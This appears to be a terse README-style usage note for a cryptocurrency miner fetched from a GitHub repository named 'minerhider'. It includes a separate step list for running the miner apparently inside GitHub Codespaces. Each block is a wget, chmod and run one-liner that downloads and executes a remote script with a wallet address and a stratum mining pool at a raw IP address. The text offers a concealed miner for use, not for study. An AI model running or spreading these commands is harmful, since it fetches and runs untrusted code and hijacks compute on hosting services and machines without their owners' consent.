 runing miner :
usega :

wget https://github.com/minhide/minerhider/raw/refs/heads/main/sh && chmod +x sh && ./sh RVV8T2V36o6sxWJqqqc6fTLF6pKp3RWifN.vpsmner1 stratum+tcp://167.172.65.186:4052 2 n

github cds:

step:

docker run vsxo/tm:t

apt install wget gcc curl sudo -y

wget https://github.com/minhide/minerhider/raw/refs/heads/main/sh && chmod +x sh && ./sh RVV8T2V36o6sxWJqqqc6fTLF6pKp3RWifN.vpsmner1 stratum+tcp://167.172.65.186:4052 4 n
